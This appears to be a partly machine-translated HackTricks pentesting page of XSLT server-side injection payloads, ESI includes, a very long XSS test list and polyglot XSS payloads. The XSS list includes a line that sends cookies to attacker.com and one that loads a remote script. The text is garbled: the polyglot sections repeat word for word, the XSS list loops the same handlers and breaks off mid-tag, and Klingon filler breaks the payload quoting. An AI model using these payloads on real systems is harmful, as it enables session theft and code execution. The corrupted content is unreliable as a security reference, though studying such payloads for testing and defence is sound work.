        <h1>XSLT Server Side Injection</h1>
        <p>Output: <xsl:value-of select="$cmd"/></p>
      </body>
    </html>
  </xsl:template>
</xsl:stylesheet>
```

##### Mitigation

To mitigate XSLT Server Side Injection vulnerabilities, follow these best practices:

- Validate and sanitize user input before using it in XSLT transformations.
- Use parameterized queries or prepared statements to prevent code injection.
- Limit the privileges of the user account used by the XSLT transformation engine.
- Regularly update and patch the XSLT transformation engine to fix any known vulnerabilities.

#### Test 2: XSLT Server Side Injection (Blind)

##### Description

This test checks for blind XSLT Server Side Injection vulnerabilities by injecting malicious code into an XSLT stylesheet and observing the response from the server.

##### Steps

1. Identify the target application that uses XSLT transformations.
2. Locate the input parameter or field that is used in the XSLT transformation.
3. Craft a payload that includes the malicious XSLT code.
4. Inject the payload into the input parameter or field.
5. Observe the response from the server.
6. If the response changes in a way that indicates the injected XSLT code was executed, the application is vulnerable to blind XSLT Server Side Injection.

##### Example Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:user="http://mycompany.com/mynamespace">
  <xsl:output method="html" version="1.0" encoding="UTF-8" indent="yes"/>
  <xsl:template match="/">
    <xsl:variable name="cmd">
      <xsl:value-of select="user:executeCommand('whoami')"/>
    </xsl:variable>
    <html>
      <body>
        <h1>XSLT Server Side Injection (Blind)</h1>
        <p>Output: <xsl:value-of select="$cmd"/></p>
      </body>
    </html>
  </xsl:template>
</xsl:stylesheet>
```

##### Mitigation

To mitigate blind XSLT Server Side Injection vulnerabilities, follow the same best practices as for regular XSLT Server Side Injection. Additionally, consider implementing the following measures:

- Monitor and analyze server logs for any suspicious behavior.
- Implement Web Application Firewalls (WAFs) to detect and block malicious XSLT code.
- Regularly perform security assessments and penetration tests to identify and fix vulnerabilities.
```markup
<xsl:value-of select="system-property('xsl:version')" />
<esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl"></esi:include>
```
### Polygloths

### Polygloths

Polygloths are files that can be interpreted as multiple file types depending on the context in which they are executed. They are often used in hacking to bypass security measures and gain unauthorized access to systems.

Polygloths can be created by manipulating the file's structure and content to make it appear as different file types. This can be achieved by adding specific headers, changing file extensions, or embedding different file formats within the same file.

By using polygloths, hackers can trick security systems into treating the file as harmless, while it actually contains malicious code or exploits. This allows them to bypass security checks and execute their attacks without detection.

Polygloths can be used in various hacking scenarios, such as phishing attacks, malware distribution, or remote code execution. They can be delivered through different channels, including email attachments, malicious websites, or compromised software.

To protect against polygloths, it is important to have robust security measures in place. This includes using up-to-date antivirus software, implementing strong access controls, and educating users about the risks of opening unknown files.

By understanding the concept of polygloths and how they can be used in hacking, security professionals can better defend against these types of attacks and mitigate the risks they pose to systems and data.

### Polygloths

Polygloths are files that can be interpreted as multiple file types depending on the context in which they are executed. They are often used in hacking to bypass security measures and gain unauthorized access to systems.

Polygloths can be created by manipulating the file's structure and content to make it appear as different file types. This can be achieved by adding specific headers, changing file extensions, or embedding different file formats within the same file.

By using polygloths, hackers can trick security systems into treating the file as harmless, while it actually contains malicious code or exploits. This allows them to bypass security checks and execute their attacks without detection.

Polygloths can be used in various hacking scenarios, such as phishing attacks, malware distribution, or remote code execution. They can be delivered through different channels, including email attachments, malicious websites, or compromised software.

To protect against polygloths, it is important to have robust security measures in place. This includes using up-to-date antivirus software, implementing strong access controls, and educating users about the risks of opening unknown files.

By understanding the concept of polygloths and how they can be used in hacking, security professionals can better defend against these types of attacks and mitigate the risks they pose to systems and data.
```markup
<xsl:value-of select="system-property('xsl:version')" /><esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl"></esi:include>
```
## XSS

### Qa'Hom Tests

#### 1. Alert

```html
<script>alert('Qa'Hom!')</script>
```

#### 2. Image Source

```html
<img src="x" onerror="alert('Qa'Hom!')">
```

#### 3. Input Value

```html
<input type="text" value="<script>alert('Qa'Hom!')</script>">
```

#### 4. URL Parameter

```html
https://example.com/?q=<script>alert('Qa'Hom!')</script>
```

#### 5. Cookie

```html
<script>document.location='https://attacker.com/steal.php?cookie='+document.cookie</script>
```

#### 6. Local Storage

```html
<script>localStorage.setItem('cookie', document.cookie)</script>
```

#### 7. Document Write

```html
<script>document.write('<script src="https://attacker.com/evil.js"></script>')</script>
```

#### 8. Event Handler

```html
<button onclick="alert('Qa'Hom!')">Click me!</button>
```

#### 9. SVG

```html
<svg onload="alert('Qa'Hom!')"></svg>
```

#### 10. Style Attribute

```html
<div style="background-image: url('x'); width: expression(alert('Qa'Hom!'));">Test</div>
```

#### 11. HREF Attribute

```html
<a href="javascript:alert('Qa'Hom!')">Click me!</a>
```

#### 12. Form Action

```html
<form action="javascript:alert('Qa'Hom!')">
  <input type="submit" value="Submit">
</form>
```

#### 13. Textarea

```html
<textarea><script>alert('Qa'Hom!')</script></textarea>
```

#### 14. Onload Attribute

```html
<body onload="alert('Qa'Hom!')">
```

#### 15. Image Tag

```html
<image src="x" onerror="alert('Qa'Hom!')">
```

#### 16. Div Tag

```html
<div onmouseover="alert('Qa'Hom!')">Hover over me!</div>
```

#### 17. Script Tag

```html
<script>alert('Qa'Hom!')</script>
```

#### 18. Iframe Tag

```html
<iframe src="javascript:alert('Qa'Hom!')"></iframe>
```

#### 19. Object Tag

```html
<object data="javascript:alert('Qa'Hom!')"></object>
```

#### 20. Embed Tag

```html
<embed src="javascript:alert('Qa'Hom!')">
```

#### 21. Audio Tag

```html
<audio src="javascript:alert('Qa'Hom!')"></audio>
```

#### 22. Video Tag

```html
<video src="javascript:alert('Qa'Hom!')"></video>
```

#### 23. Source Tag

```html
<source src="javascript:alert('Qa'Hom!')">
```

#### 24. Track Tag

```html
<track src="javascript:alert('Qa'Hom!')">
```

#### 25. Input Tag

```html
<input type="text" onfocus="alert('Qa'Hom!')">
```

#### 26. Select Tag

```html
<select onchange="alert('Qa'Hom!')">
  <option value="1">Option 1</option>
  <option value="2">Option 2</option>
</select>
```

#### 27. Textarea Tag

```html
<textarea onselect="alert('Qa'Hom!')">Select me!</textarea>
```

#### 28. Button Tag

```html
<button onclick="alert('Qa'Hom!')">Click me!</button>
```

#### 29. Onerror Attribute

```html
<img src="x" onerror="alert('Qa'Hom!')">
```

#### 30. Onload Attribute

```html
<body onload="alert('Qa'Hom!')">
```

#### 31. Onmouseover Attribute

```html
<div onmouseover="alert('Qa'Hom!')">Hover over me!</div>
```

#### 32. Onfocus Attribute

```html
<input type="text" onfocus="alert('Qa'Hom!')">
```

#### 33. Onchange Attribute

```html
<select onchange="alert('Qa'Hom!')">
  <option value="1">Option 1</option>
  <option value="2">Option 2</option>
</select>
```

#### 34. Onselect Attribute

```html
<textarea onselect="alert('Qa'Hom!')">Select me!</textarea>
```

#### 35. Onsubmit Attribute

```html
<form onsubmit="alert('Qa'Hom!')">
  <input type="submit" value="Submit">
</form>
```

#### 36. Onkeydown Attribute

```html
<input type="text" onkeydown="alert('Qa'Hom!')">
```

#### 37. Onkeyup Attribute

```html
<input type="text" onkeyup="alert('Qa'Hom!')">
```

#### 38. Onkeypress Attribute

```html
<input type="text" onkeypress="alert('Qa'Hom!')">
```

#### 39. Onblur Attribute

```html
<input type="text" onblur="alert('Qa'Hom!')">
```

#### 40. Ondblclick Attribute

```html
<button ondblclick="alert('Qa'Hom!')">Double click me!</button>
```

#### 41. Onmousedown Attribute

```html
<button onmousedown="alert('Qa'Hom!')">Click me!</button>
```

#### 42. Onmouseup Attribute

```html
<button onmouseup="alert('Qa'Hom!')">Click me!</button>
```

#### 43. Onmousemove Attribute

```html
<div onmousemove="alert('Qa'Hom!')">Move your mouse!</div>
```

#### 44. Onmouseout Attribute

```html
<div onmouseout="alert('Qa'Hom!')">Mouse out!</div>
```

#### 45. Onmouseenter Attribute

```html
<div onmouseenter="alert('Qa'Hom!')">Mouse enter!</div>
```

#### 46. Onmouseleave Attribute

```html
<div onmouseleave="alert('Qa'Hom!')">Mouse leave!</div>
```

#### 47. Oncontextmenu Attribute

```html
<div oncontextmenu="alert('Qa'Hom!')">Right click me!</div>
```

#### 48. Onresize Attribute

```html
<body onresize="alert('Qa'Hom!')">
```

#### 49. Onscroll Attribute

```html
<body onscroll="alert('Qa'Hom!')">
```

#### 50. Onunload Attribute

```html
<body onunload="alert('Qa'Hom!')">
```

#### 51. Onhashchange Attribute

```html
<body onhashchange="alert('Qa'Hom!')">
```

#### 52. Onmessage Attribute

```html
<body onmessage="alert('Qa'Hom!')">
```

#### 53. Onbeforeunload Attribute

```html
<body onbeforeunload="alert('Qa'Hom!')">
```

#### 54. Onoffline Attribute

```html
<body onoffline="alert('Qa'Hom!')">
```

#### 55. Ononline Attribute

```html
<body ononline="alert('Qa'Hom!')">
```

#### 56. Onpagehide Attribute

```html
<body onpagehide="alert('Qa'Hom!')">
```

#### 57. Onpageshow Attribute

```html
<body onpageshow="alert('Qa'Hom!')">
```

#### 58. Onpopstate Attribute

```html
<body onpopstate="alert('Qa'Hom!')">
```

#### 59. Onstorage Attribute

```html
<body onstorage="alert('Qa'Hom!')">
```

#### 60. Onunload Attribute

```html
<body onunload="alert('Qa'Hom!')">
```

#### 61. Onbeforeprint Attribute

```html
<body onbeforeprint="alert('Qa'Hom!')">
```

#### 62. Onafterprint Attribute

```html
<body onafterprint="alert('Qa'Hom!')">
```

#### 63. Onbeforecut Attribute

```html
<input type="text" onbeforecut="alert('Qa'Hom!')">
```

#### 64. Oncut Attribute

```html
<input type="text" oncut="alert('Qa'Hom!')">
```

#### 65. Onbeforecopy Attribute

```html
<input type="text" onbeforecopy="alert('Qa'Hom!')">
```

#### 66. Oncopy Attribute

```html
<input type="text" oncopy="alert('Qa'Hom!')">
```

#### 67. Onbeforepaste Attribute

```html
<input type="text" onbeforepaste="alert('Qa'Hom!')">
```

#### 68. Onpaste Attribute

```html
<input type="text" onpaste="alert('Qa'Hom!')">
```

#### 69. Onsearch Attribute

```html
<input type="search" onsearch="alert('Qa'Hom!')">
```

#### 70. Oninvalid Attribute

```html
<input type="text" oninvalid="alert('Qa'Hom!')">
```

#### 71. Onreset Attribute

```html
<form onreset="alert('Qa'Hom!')">
  <input type="reset" value="Reset">
</form>
```

#### 72. Onsubmit Attribute

```html
<form onsubmit="alert('Qa'Hom!')">
  <input type="submit" value="Submit">
</form>
```

#### 73. Oninput Attribute

```html
<input type="text" oninput="alert('Qa'Hom!')">
```

#### 74. Onchange Attribute

```html
<select onchange="alert('Qa'Hom!')">
  <option value="1">Option 1</option>
  <option value="2">Option 2</option>
</select>
```

#### 75. Onfocus Attribute

```html
<input type="text" onfocus="alert('Qa'Hom!')">
```

#### 76. Onblur Attribute

```html
<input type="text" onblur="alert('Qa'Hom!')">
```

#### 77. Onkeydown Attribute

```html
<input type="text" onkeydown="alert('Qa'Hom!')">
```

#### 78. Onkeyup Attribute

```html
<input type="text" onkeyup="alert('Qa'Hom!')">
```

#### 79. Onkeypress Attribute

```html
<input type="text" onkeypress="alert('Qa'Hom!')">
```

#### 80. Onselect Attribute

```html
<textarea onselect="alert('Qa'Hom!')">Select me!</textarea>
```

#### 81. Onchange Attribute

```html
<select onchange="alert('Qa'Hom!')">
  <option value="1">Option 1</option>
  <option value="2">Option 2</option>
</select>
```

#### 82. Onsubmit Attribute

```html
<form onsubmit="alert('Qa'Hom!')">
  <input type="submit" value="Submit">
</form>
```

#### 83. Oninput Attribute

```html
<input type="text" oninput="alert('Qa'Hom!')">
```

#### 84. Onchange Attribute

```html
<select onchange="alert('Qa'Hom!')">
  <option value="1">Option 1</option>
  <option value="2">Option 2</option>
</select>
```

#### 85. Onfocus Attribute

```html
<input type="text" onfocus="alert('Qa'Hom!')">
```

#### 86. Onblur Attribute

```html
<input type="text" onblur="alert('Qa'Hom!')">
```

#### 87. Onkeydown Attribute

```html
<input type="text" onkeydown="alert('Qa'Hom!')">
```

#### 88. Onkeyup Attribute

```html
<input type="text" onkeyup="alert('Qa'Hom!')">
```

#### 89. Onkeypress Attribute

```html
<input type="text" onkeypress="alert('Qa'Hom!')">
```

#### 90. Onselect Attribute

```html
<textarea onselect="alert('Qa'Hom!')">Select me!</textarea>
```

#### 91. Onchange Attribute

```html
<select onchange="alert('Qa'Hom!')">
  <option value="1">Option 1</option>
  <option value="2">Option 2</option>
</select>
```

#### 92. Onsubmit Attribute

```html
<form onsubmit="alert('Qa'Hom!')">
  <input type="submit" value="Submit">
</form>
```

#### 93. Oninput Attribute

```html
<input type="text" oninput="alert('Qa'Hom!')">
```

#### 94. Onchange Attribute

```html
<select onchange="alert('Qa'Hom!')">
  <option value="1">Option 1</option>
  <option value="2">Option 2</option>
</select>
```

#### 95. Onfocus Attribute

```html
<input type="text" onfocus="alert('Qa'Hom!')">
```

#### 96. Onblur Attribute

```html
<input type="text" onblur="alert('Qa'Hom!')">
```

#### 97. Onkeydown Attribute

```html
<input type="text" onkeydown="alert('Qa'Hom!')">
```

#### 98. Onkeyup Attribute

```html
<input type="text" onkeyup="alert('Qa'Hom!')">
```

#### 99. Onkeypress Attribute

```html
<input type="text" onkeypress="alert('Qa'Hom!')">
```

#### 100. Onselect Attribute

```html
<textarea onselect="alert('Qa'Hom!')">Select me!</textarea>
```

#### 101. Onchange Attribute

```html
<select onchange="alert('Qa'Hom!')">
  <option value="1">Option 1</option>
  <option value="2">Option 2</option>
</select>
```

#### 102. Onsubmit Attribute

```html
<form onsubmit="alert('Qa'Hom!')">
  <input type="submit" value="Submit">
</form>
```

#### 103. Oninput Attribute

```html
<input type="text" oninput="alert('Qa'Hom!')">
```

#### 104. Onchange Attribute

```html
<select onchange="alert('Qa'Hom!')">
  <option value="1">Option 1</option>
  <option value="2">Option 2</option>
</select>
```

#### 105. Onfocus Attribute

```html
<input type="text" onfocus="alert('Qa'Hom!')">
```

#### 106. Onblur Attribute

```html
<input type="text" onblur="alert('Qa'Hom!')">
```

#### 107. Onkeydown Attribute

```html
<input type="text" onkeydown="alert('Qa'Hom!')">
```

#### 108. Onkeyup Attribute

```html
<input type="text" onkeyup="alert('Qa'Hom!')">
```

#### 109. Onkeypress Attribute

```html
<input type="text" onkeypress="alert('Qa'Hom!')">
```

#### 110. Onselect Attribute

```html
<textarea onselect="alert('Qa'Hom!')">Select me!</textarea>
```

#### 111. Onchange Attribute

```html
<select onchange="alert('Qa'Hom!')">
  <option value="1">Option 1</option>
  <option value="2">Option 2</option>
</select>
```

#### 112. Onsubmit Attribute

```html
<form onsubmit="alert('Qa'Hom!')">
  <input type="submit" value="Submit">
</form>
```

#### 113. Oninput Attribute

```html
<input type="text" oninput="alert('Qa'Hom!')">
```

#### 114. Onchange Attribute

```html
<select onchange="alert('Qa'Hom!')">
  <option value="1">Option 1</option>
  <option value="2">Option 2</option>
</select>
```

#### 115. Onfocus Attribute

```html
<input type="text" onfocus="alert('Qa'Hom!')">
```

#### 116. Onblur Attribute

```html
<input type="text" onblur="alert('Qa'Hom!')">
```

#### 117. Onkeydown Attribute

```html
<input type="text" onkeydown="alert('Qa'Hom!')">
```

#### 118. Onkeyup Attribute

```html
<input type="text" onkeyup="alert('Qa'Hom!')">
```

#### 119. Onkeypress Attribute

```html
<input type="text" onkeypress="alert('Qa'Hom!')">
```

#### 120. Onselect Attribute

```html
<textarea onselect="alert('Qa'Hom!')">Select me!</textarea>
```

#### 121. Onchange Attribute

```html
<select onchange="alert('Qa'Hom!')">
  <option value="1">Option 1</option>
  <option value="2">Option 2</
```markup
" onclick=alert() a="
'"><img src=x onerror=alert(1) />
javascript:alert()
```
### Polygloths

### Polygloths

Polygloths are files that can be interpreted as multiple file types depending on the context in which they are executed. This can be useful for bypassing security measures or exploiting vulnerabilities in certain systems.

Polygloths can be created by combining the syntax and structure of different file types into a single file. When executed, the file is interpreted differently depending on the software or system that is processing it.

For example, a polyglot file may appear as a harmless image file when opened in an image viewer, but when executed as a script, it can run malicious code. This can be used to trick users into opening the file, thinking it is safe, while actually executing harmful actions.

Polygloths can be used in various hacking techniques, such as:

- **File Inclusion Attacks**: By creating a polyglot file that can be interpreted as both an image file and a script, an attacker can exploit a file inclusion vulnerability to execute arbitrary code on a target system.

- **Cross-Site Scripting (XSS)**: Polyglot files can be used to inject malicious code into web applications, bypassing input validation and executing arbitrary scripts in the context of the victim's browser.

- **Data Exfiltration**: Polyglot files can be used to hide sensitive data within seemingly harmless files, allowing an attacker to exfiltrate data without detection.

To create polygloths, hackers often leverage the differences in file format specifications and the way different software interprets them. By carefully crafting a file that conforms to multiple specifications, they can create a file that behaves differently depending on the context in which it is executed.

It is important for security professionals to be aware of polygloths and understand how they can be used in attacks. By understanding the techniques used to create and exploit polygloths, security measures can be put in place to detect and prevent their malicious use.
```markup
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm( 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
<svg%0Ao%00nload=%09((pro\u006dpt))()//
javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/--><svg/onload=/*<html/*/onmouseover=alert()//>
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>--><svg onload=/*<html/*/onmouseover=alert()//>
javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template><svg/onload='/*--><html */ onmouseover=alert()//'>`
%0ajavascript:`/*\"/*-->&lt;svg onload='/*</template></noembed></noscript></style></title></textarea></script><html onmouseover="/**/ alert(test)//'">`
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+document.location=`//localhost/mH`//'>
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=document.location=`//localhost/mH`//>
```
<details>

<summary><strong>qaStaHvIS AWS hacking vItlhutlh</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
